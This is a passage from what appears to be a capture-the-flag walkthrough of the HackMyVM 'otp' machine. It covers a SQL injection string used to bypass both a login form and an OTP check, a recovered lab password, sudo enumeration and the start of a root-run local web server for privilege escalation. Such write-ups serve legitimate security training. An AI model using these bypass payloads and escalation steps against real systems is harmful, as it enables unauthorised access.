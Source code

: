 Then, I opened totp.otp.hmv to find a login page that I could bypass using the following input.

SQL injection input
' OR 1=1 -- -
Then, it asks for the OTP but we can also bypass this using the same above query. However, the creator didn’t intend this. I guess he wants us to use an authenticator extension to generate OTP from the totp we found earlier. Anyway, we get the following screen.
We get a portion of the password for the user. Then, we have an instruction to decode. So, we can use the base32 that we decoded in place of those asterisks. Lastly, we have payloads that are the machines’ names from the HackMyVM platform. I copied those and replaces “\n” with a new line.

## format the file
```bash
# the -i flag replaces the same file
sed -i 's/\\n/\n/g' payloads
```
avijneyam:n3v3rG0nn4G!v3y0UuP___Cuz_HackMyVM_iS_theRe_Only_4_y0u_:)

# 08 Switch to the user avijneyam


```bash
www-data@otp:/home$ su -l avijneyam
Password: 
avijneyam@otp:~$ sudo -l
[sudo] password for avijneyam: 
Matching Defaults entries for avijneyam on otp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User avijneyam may run the following commands on otp:
    (root) PASSWD: /bin/bash /root/localhost.sh
    ```
```bash
avijneyam@otp:~$ cat flag_user.txt 
2990aa5108d5803f3fdca99c277ba352
```
Here, the user can run a command that looks like a webserver.

## run the server

```bash
avijneyam@otp:~$ sudo bash /root/localhost.sh
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://127.0.0.1:5000/ (Press CTRL+C to quit)
```
As I said before, this is a python server running on port 5000. So, I sent this job to the background using Ctrl+Z and listed the listening ports.
